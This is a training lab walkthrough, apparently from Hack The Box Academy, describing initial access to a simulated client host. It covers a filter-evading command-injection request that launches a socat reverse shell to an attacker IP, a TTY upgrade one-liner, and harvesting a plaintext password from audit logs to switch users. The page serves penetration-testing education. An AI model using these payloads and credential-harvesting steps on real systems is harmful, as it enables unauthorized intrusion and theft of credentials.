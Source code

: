 
<h1>Initial Access</h1>
<hr/>
<p>Now that we've thoroughly enumerated and attacked the external perimeter and uncovered a wealth of findings, we're ready to shift gears and focus on obtaining stable internal network access. Per the SoW document, if we can achieve an internal foothold, the client would like us to see how far we can go up to and including gaining <code>Domain Admin level access</code>. In the last section, we worked hard on peeling apart the layers and finding web apps that led to early file read or remote code execution but didn't get us into the internal network. We left off with obtaining RCE on the <code>monitoring.inlanefreight.local</code> application after a hard-fought battle against filters and blacklists set in place to try to prevent <code>Command Injection</code> attacks.</p>
<hr/>
<h2>Getting a Reverse Shell</h2>
<p>As mentioned in the previous section, we can use <a href="https://linux.die.net/man/1/socat">Socat</a> to establish a reverse shell connection. Our base command will be as follows, but we'll need to tweak it some to get past the filtering:</p>
<pre><code class="language-shell-session">socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
</code></pre>
<p>We can modify this command to give us a payload to catch a reverse shell.</p>
<pre><code class="language-shell-session">GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
</code></pre>
<p>Start a <code>Netcat</code> listener on the port used in the Socat command (8443 here) and execute the above request in Burp Repeater. If all goes as intended, we will have a reverse shell as the <code>webdev</code> user.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm) 
</code></pre>
<p>Next, we'll need to upgrade to an <code>interactive TTY</code>. This <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/">post</a> describes a few methods. We could use a method that was also covered in the <a href="https://academy.hackthebox.com/module/77/section/725">Types of Shells</a> section of the <code>Getting Started</code> module, executing the well-known Python one-liner (<code>python3 -c 'import pty; pty.spawn("/bin/bash")'</code>) to spawn a psuedo-terminal. But we're going to try something a bit different using <code>Socat</code>. The reason for doing this is to get a proper terminal so we can run commands like <code>su</code>, <code>sudo</code>, <code>ssh</code>, <code>use command completion</code>, and <code>open a text editor if needed</code>.</p>
<p>We'll start a Socat listener on our attack host.</p>
<pre><code class="language-shell-session">[!bash!]$ socat file:`tty`,raw,echo=0 tcp-listen:4443
</code></pre>
<p>Next, we'll execute a Socat one-liner on the target host.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
</code></pre>
<p>If all goes as planned, we'll have a stable reverse shell connection on our Socat listener.</p>
<pre><code class="language-shell-session">webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
</code></pre>
<p>Now that we've got a stable reverse shell, we can start digging around the file system. The results of the <code>id</code> command are immediately interesting. The <a href="https://academy.hackthebox.com/module/51/section/477">Privileged Groups</a> section of the <code>Linux Privilege Escalation</code> module shows an example of users in the <code>adm</code> group having rights to read ALL logs stored in <code>/var/log</code>. Perhaps we can find something interesting there. We can use <a href="https://linux.die.net/man/8/aureport">aureport</a> to read audit logs on Linux systems, with the man page describing it as "aureport is a tool that produces summary reports of the audit system logs."</p>
<pre><code class="language-shell-session">webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",&lt;nl&gt;
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",&lt;nl&gt;
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",&lt;nl&gt;
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo &lt;nl&gt;
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",&lt;nl&gt;
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",&lt;ret&gt;,"exit",&lt;ret&gt;
</code></pre>
<p>After running the command, type <code>q</code> to return to our shell. From the above output, it looks like a user was trying to authenticate as the <code>srvadm</code> user, and we have a potential credential pair <code>srvadm:ILFreightnixadm!</code>. Using the <code>su</code> command, we can authenticate as the <code>srvadm</code> user.</p>
<pre><code class="language-shell-session">webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
</code></pre>
<p>Now that we've bypassed heavy filtering to achieve command injection, turned that code execution into a reverse shell, and escalated our privileges to another user, we don't want to lose access to this host. In the next section, we'll work towards achieving persistence, ideally after escalating privileges to <code>root</code>.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-success '&gt;low Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="29" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="4">US Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 2 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="5">US Academy 2</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="13">US Academy 4</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 3 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="36" value="9">US Academy 3</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="37" value="12">EU Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 2 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="38" selected="" value="2">EU Academy 2</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="40" value="1">EU Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 3 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="42" value="14">EU Academy 3</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="43" value="11">EU Academy 4</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="47" value="15">EU Academy 6</option>
</select>
<p class="font-size-14 color-white mb-0 mt-2">PROTOCOL</p>
<div class="d-flex">
<div class="custom-control custom-radio custom-control-inline">
<input checked="" class="custom-control-input" id="rd_1" name="vpn-protocol" type="radio" value="udp"/>
<label class="custom-control-label green font-size-14" for="rd_1">UDP
                                    1337</label>
</div>
<div class="custom-control custom-radio">
<input class="custom-control-input" id="rd_2" name="vpn-protocol" type="radio" value="tcp"/>
<label class="custom-control-label green font-size-14" for="rd_2">TCP
                                    443</label>
</div>
</div>
<div class="d-flex justify-content-center">
<button class="btn btn-outline-success btn-lg download-vpn-settings mt-3 px-5 font-size-12">
                                DOWNLOAD VPN CONNECTION FILE
                            </button>
</div>
</div>
</div>
</div>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                            <button class="extendTargetSystemBtn btn btn-light btn-sm module-button" data-title="Extend Life by 1 hour (up to 6 hours total lifespan)" data-toggle="tooltip">
<i class="fa fa-plus text-success extend-icon"></i>
<div class="extend-loader spinner-border spinner-border-small text-success d-none" role="status">
</div>
</button>
<button class="text-danger btn btn-light btn-sm module-button font-size-16 mb-1" data-target="#terminateVmModal" data-toggle="modal">
                    Terminate <span class="fa-regular fa-x text-danger font-size-13 ml-2"></span>
</button>
</span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<a class="btn btn-light bg-color-blue-nav mt-2 d-flex align-items-center" data-title='Key is already installed in "My Workstation"' data-toggle="tooltip" href="https://academy.hackthebox.com/vpn/key">
<div><i class="fad fa-chart-network mr-2"></i></div>
<div class="text-center w-100">Download VPN Connection File</div>
</a>
</div>
</div>
<div>
<div>
<label class="module-question" for="1248"><span class="badge badge-soft-dark font-size-14 mr-2">+ 0 <i class="fad fa-cube text-success"></i></span> Submit the contents of the flag.txt file in the /home/srvadm directory.
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control bg-color-blue-nav" color="green" id="answer1248" maxlength="191" placeholder="Submit your answer here..." type="text"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<p class="mb-0 mr-3 mt-1 font-size-14 font-medium text-white" id="questionStreakPointsText-1248">
                                        +10 Streak pts</p>
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="1248" id="btnAnswer1248">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
